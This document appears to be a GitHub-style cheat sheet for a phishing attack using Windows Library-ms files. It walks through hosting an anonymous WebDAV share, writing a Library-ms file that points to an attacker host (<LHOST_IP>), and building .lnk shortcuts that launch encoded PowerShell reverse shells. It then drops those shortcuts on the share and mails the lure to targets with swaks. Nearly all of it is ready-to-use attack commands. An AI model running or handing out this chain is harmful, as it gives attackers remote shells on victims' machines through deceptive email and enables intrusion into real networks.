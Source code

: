 # Config library ms phishing

Require webdav.


## 1. Setup webdav

use 80 port.

```bash
$ pip3 install wsgidav
$ mkdir ~/webdav
$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ~/webdav
```

## 2. make `config.Library-ms` file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>\\<LHOST_IP>\DavWWWRoot</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

`{7d49d726-3c21-4f05-99aa-fdc2c9474656}` is Documents GUID.

If you make in VIM, just `unix2dos config.Library-ms`.


## 3. (Windows) Add reverse shell .lnk shortcut

```powershell
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("save.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\cmd.exe"
$Shortcut.Arguments = "/c powershell.exe -ep bypass -enc xxx"
$Shortcut.Save()
```

## 3. (Linux) make a reverse shell

```
$ python3 -m pip install git+https://github.com/strayge/pylnk@dev
$ pylnk3 create 'C:\Windows\System32\cmd.exe' -a '/c powershell -e <Base64 RevShell>' good.lnk
```

## 4. finally

drop .lnk into webdav.

## 5. Sendmail
```
swaks -t target1@manesec.com -t target2@manesec.com --from mane@manesec.com --attach @config.Library-ms --server 192.168.XXX.XXX --body click --header "Subject: Sleep is good" -ap --auth-user xxxxxxxxxx  --auth-password 'xxxxxxxxxx'
```

```
swaks -t usera@manesec.com -t userb@manesec.com --from john@manesec.com --attach @config.Library-ms --server 192.168.XXX.XXX --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```


## Reference

+ https://pypi.org/project/pylnk3/

